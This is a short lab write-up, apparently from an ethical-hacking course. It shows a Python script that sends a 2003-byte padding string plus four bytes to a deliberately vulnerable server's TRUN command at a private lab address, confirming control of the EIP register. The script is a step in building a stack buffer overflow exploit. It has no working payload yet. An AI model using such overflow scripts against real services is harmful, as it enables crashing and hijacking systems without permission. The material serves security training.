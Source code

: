 # Overwritting the EIP 

We previously found that the offset was at 2003 bytes 

I.e. there are 2003 bytes before you get to the EIP and the EIP itself is 4 bytes long

Change our last script `2.py` to `3.py` to check if we can overwrite the EIP:

```
#!/usr/bin/python
import sys, socket

shellcode = "A" * 2003 + "B" * 4

while True:
	try:
		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('10.0.2.15',9999))
		s.send(('TRUN /.:/' + shellcode ))
		s.close()
	except:
		print "Error connecting to server"
		sys.exit()
```

![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/0c85d5c234ef418981e982d9dfb083ce.png?raw=true)

Indeed able to control the EIP, which became "B" (42424242)
